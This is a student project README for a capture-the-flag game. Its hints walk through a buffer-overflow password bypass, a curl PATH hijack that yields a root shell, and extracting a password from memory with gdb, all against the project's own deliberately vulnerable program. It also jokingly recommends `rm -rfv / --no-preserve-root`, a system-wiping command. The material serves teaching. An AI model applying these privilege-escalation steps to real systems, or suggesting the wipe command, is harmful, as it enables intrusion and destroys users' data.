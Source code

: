 # Capture the hack
### What is this "game"?
+ This exploit game aims to learn some very basic linux comands and also some low *hacking* knowlage to collect all flags.
+ And also this is project for BPC-IC1.
## How to play
### Initial setup:
+ Clone this repo and cd in its file:
```bash
git clone https://github.com/PrimalMight/IC1_Project.git
smthn=`find $(pwd) -name 'IC1_Project'` && cd $smthn
```
+ Compile totally legit SW:
```bash
sudo gcc -w -g -fno-stack-protector -o launch_me main.c   
sudo gcc -o decryptor decryptor.c 
```
> names ``launch_me`` and ``decryptor`` are optional, but i recommend not changing it. <br>
### Game tutorial:
Start the program with ``./launch_me``.
+ **First flag: Buffer overflow bypass the initial password check!**
	* After the program is started, player is asked for some password, well we dont know the password, se you need to find other way how to gain acces! <br>
	<details>
 	<summary>Hint here!</summary>

  ```
  Maybe try spam of ``A`` (somewhere between 1 and 35) ``1`` on the end?
  ```
	</details>
+ **Second flag: Hijack the path for relative curl call in the program for shell and escalate privilege to root!**
	* ``$ strings exploit_this`` to get information about the compiled file. <br>
	* ``$ curl -I localhost`` - curl is called without full path using $PATH variable! <br>
	* So you need to hijack the curl path and substitute curl for shell. <br>
	<details>
 	<summary>Hint here!</summary>

  ```bash
  strings launch_me
  echo /usr/bin > /tmp/curl
  #this one is easy, give all privileges to curl (use chmod)
  export PATH=/tmp:$PATH
  #cd back to the repo file
  which curl
  #launch the compiled program with ./launch_me
  #enter the password overflow that worked from first flag
  #choose ``y`` on "do you want to check fo running http localhost service (y/n)"
  #execute ``whoami`` command to make sure, you have root privileges
  ```
	</details>
	
+ **Third flag: Extract the password from memory using gdb tool and use this password to decrypt ``riddle_me_this_batman.txt`` file containing final riddle for batman!**
	* There are two parts player needs to do.
	* First, create another .txt file and with echo add some text into it (it is needed to do this, because it is the unix way of adding text to the file).
	```bash
	touch test.txt; echo "We are no strangers to love, You know the rules and so do I!"
	```
	* launch compiled programme with gdb and try to extract password from memmory.
	```bash
	gdb launch_me
	break <name_of_the_function_player_need_to_break>
	```
	<details>
 	<summary>Hint here!</summary>

  ```bash
  (in normal console) gdb lanch_me
  (in gdb) break encrypt_file
  (in gdb) #answer ``y`` to "Enable debuginfo for this session(y or [n])"
  (in gdb) run
  (in gdb) #enter the "password" from first flag
  (in gdb) #answer ``n`` to "want to check for local service running?"
  (in gdb) #answer ``y`` to "do you want to encrypt file? (y/n)"
  (in gdb) #enter the filename: test.txt (or whatever you choosed to name it)
  (in gdb) x/s password #still in the gdb
  (in gdb) exit
  (in gdb) #answer ``y`` to "Quit anyway?(y or n)"
  ```
	</details>
	
	* Second part is decrypthing the ``riddle_me_this_batman.txt``.
	* To do that, you need once again enter shell with root privileges (second flag) and use password you found above for encryptor to decrypt .txt file.
	```bash
	./decryptor
	> please provide a password: <here_goes_the_password>
	nano output_plaintext.txt
	```
	* And now you've got all the flags, so there is one final thing you need to do before you leave this VM image, what is the answer for the riddle?.
	* [Click me for answer](https://youtu.be/54P0GQEM4w8)
	<details>
 	<summary>Hint here!</summary>

  ```bash
  (normal console) ./launch_me
  > Do you want to check for runninf http localhost service? (y/n)
   y
  (root from flag2) ./decryptor
  > Please prowide a password: <here_goes_the_password>
  (root from flag2) nano output_plaintext.txt
  ```
	</details>
	
	* And now you can leave with style! 
	> I recommend using something like ``rm -rfv / --no-preserve-root``
	
## BPC-IC1 things:

### Vulnerabilities
- [x] Buffer overflow into password check bypass
- [x] curl path hijack into privilege escalation (only with script, just testing...)

